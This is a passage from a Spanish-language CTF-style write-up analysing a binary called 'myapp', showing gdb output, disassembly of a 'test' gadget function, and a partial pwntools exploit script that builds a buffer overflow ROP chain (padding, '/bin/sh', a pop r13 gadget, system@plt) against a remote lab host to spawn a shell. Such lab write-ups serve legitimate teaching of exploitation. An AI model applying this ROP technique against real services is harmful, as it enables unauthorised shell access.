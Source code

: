 ```bash
gef➤  x/s $rdi
0x402008:	"/usr/bin/uptime"
```

Perfecto, esto es correcto. Investigando, hay una función llamada **test** la cual modifica **RSI** por **RBP** al cual si tenemos acceso.

```c wrap=false
************************************************
*                   FUNCTION                   *
************************************************

                      undefined test()
          undefined     <UNASSIGNE <RETURN>
                      test                                  XREF[3]:  Entry Point(*), 00402060, 
                                                                      00402108(*)  
     00401152 55          PUSH     RBP
     00401153 48 89 e5    MOV      RBP,RSP
                      RDI -> /bin/sh
     00401156 48 89 e7    MOV      RDI,RSP
                      R13 -> system()
     00401159 41 ff e5    JMP      R13
     0040115c 90          ??       90h
     0040115d 5d          ??       5Dh    ]
     0040115e c3          ??       C3h

```

## Explotación

Como vemos podríamos hacer que **RDI** valiese `/bin/sh` y **R13** `system()` para que lo ejecute. Vamos a crearnos un script en **python** para automatizarlo:

```python title="exploit.py (Creado por S4vitar)" wrap=false
#!/usr/bin/python3 

from pwn import *

context(terminal=['tmux', 'new-window'])
context(os='linux', arch='amd64')

# p = gdb.debug("./myapp", "b *main") Debug en local
p = remote("10.10.10.147", 1337)
# p.recvuntil("What do you want me to echo back?") Debug en local

junk = b"A"*112 # 120 - 8 -> 8 es la longitud de bin_sh                                                                                                    exploit.py                                                                                                                    
bin_sh = b"/bin/sh\x00"

# Buscamos un gadget que modifique R13
# ./Ropper.py -f ../myapp --search "pop r13"
# 0x0000000000401206: pop r13; pop r14; pop r15; ret; 

pop_r13 = p64(0x401206)
null = p64(0x0)

# Buscamos dónde se encunetra la función system
# objdump -D ./myapp | grep system
# 0000000000401040 <system@plt>:
#   40116e:     e8 cd fe ff ff          call   401040 <system@plt>

system_plt = p64(0x401040)

# ❯ objdump -D ./myapp | grep test
```